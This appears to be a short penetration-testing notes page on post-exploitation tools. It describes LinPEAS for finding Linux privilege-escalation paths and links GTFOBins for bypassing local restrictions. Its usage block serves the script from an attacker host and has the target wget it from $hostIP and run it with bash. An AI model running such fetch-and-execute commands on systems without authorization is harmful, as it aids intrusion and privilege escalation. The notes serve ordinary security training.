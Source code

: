 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Tools and Utilities

Here we can find some tools and utilities commonly used for processes related to post-exploitation:

## <mark style="color:green;">LinPeass</mark>&#x20;

* Script that searches for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts
* [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

### <mark style="color:yellow;">Commands</mark>

* Installation

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt install peass
```
{% endcode %}

***

* Usage

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Host machine
linpeas
python3 -m http.server $port #Create server to send file

#Target machine
cd /tmp
wget http://$hostIP:$port/linpeas.sh
bash linpeas.sh
```
{% endcode %}

## <mark style="color:green;">GTFOBins</mark>

* List of Unix binaries used to bypass local security restrictions in misconfigured systems.
* [https://gtfobins.github.io/](https://gtfobins.github.io/)
